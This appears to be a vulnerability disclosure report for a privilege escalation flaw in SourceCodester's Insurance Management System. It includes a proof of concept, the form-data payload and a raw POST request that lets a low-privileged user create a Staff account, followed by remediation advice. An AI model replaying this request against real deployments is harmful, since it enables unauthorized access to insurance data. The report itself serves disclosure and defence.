 # Privilege Escalation Vulnerability in SourceCodester Online Insurance Management System

## Vendor and Product Information:

- **Vendor:** Sourcecodester
- **Product:** Insurance Management System
- Product URL: [Insurance Management System](https://www.sourcecodester.com/php/16995/insurance-management-system-php-mysql.html)

## Executive Summary

Vertical Privilege Escalation vulnerability in Insurance Management System 1.0 and earlier allows attacker to create a higher privileged account of **Staff** user by accessing the function defined out of his privileges access scope. It will allow the user to perform the tasks he is not supposed to do by maintaining the Staff account to himself.

## Issue Details

- **Vulnerability Name: Privilege Escalation in creating new Staff Account**
- **Severity: High**
- **Affected URL:** http://localhost/e-insurance/Script./admin/core/new_staff
- **HTTP Method:** POST

## Issue Description

The web application is vulnerable to Privilege Escalation(Vertical) attack in the adding the new staff functionality. An attacker can exploit this vulnerability by creating a higher privileged ***Staff*** account. In the provided example, the attacker creates a new Staff account by accessing the function out of his access privileges.

## Proof Of Concept

1. Configure a web proxy in your browser.
2. With the **User** role privilege account, intercept any request in the web proxy and modify the Request Method from GET to POST, modify the path to /e-insurance/Script./admin/core/new_staff and the post data to be fname=Privilege&lname=Escalation&email=hackerookie%[40hackerookie.com](http://40hackerookie.com/)&gender=Male&phone=9999999999&submit=1.

```jsx
fname=Privilege&lname=Escalation&email=hackerookie%40hackerookie.com&gender=Male&phone=9999999999&submit=1
```

1. Send the request, the page will display a error, as it would try to view the admin page which is not available but the staff user is created successfully.
2. You can verify the same in the admin account by navigating to the Staff section.

https://drive.google.com/file/d/1mzj80LmcBK0dFAY8xzwI-yfj8wxFqrnb/view?usp=sharing

## Payload:

```jsx
fname=Privilege&lname=Escalation&email=hackerookie%40hackerookie.com&gender=Male&phone=9999999999&submit=1
```

## Request:

```jsx
POST /e-insurance/Script./admin/core/new_staff HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 106

fname=Privilege&lname=Escalation&email=hackerookie%40hackerookie.com&gender=Male&phone=9999999999&submit=1
```

## Impact:

Privilege escalation compromises data security by giving the attacker less-restricted or unrestricted access. The sensitive information they access can be used for whatever purposes legitimate users might use it.

## Remediation:

Access control vulnerabilities can be prevented by taking a defense-in-depth approach and applying the following principles:

- Never rely on obfuscation alone for access control.
- Unless a resource is intended to be publicly accessible, deny access by default.
- Wherever possible, use a single application-wide mechanism for enforcing access controls.
- At the code level, make it mandatory for developers to declare the
access that is allowed for each resource, and deny access by default.
- Thoroughly audit and test access controls to ensure they work as designed.

## References:

https://portswigger.net/web-security/access-control

## Weakness Enumeration:

[CWE-269](https://cwe.mitre.org/data/definitions/269.html)

---

This report highlights the Privilege Escalation vulnerability present in the **new_staff.php** function ****of http://localhost/e-insurance/Script./admin/core/new_staff, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.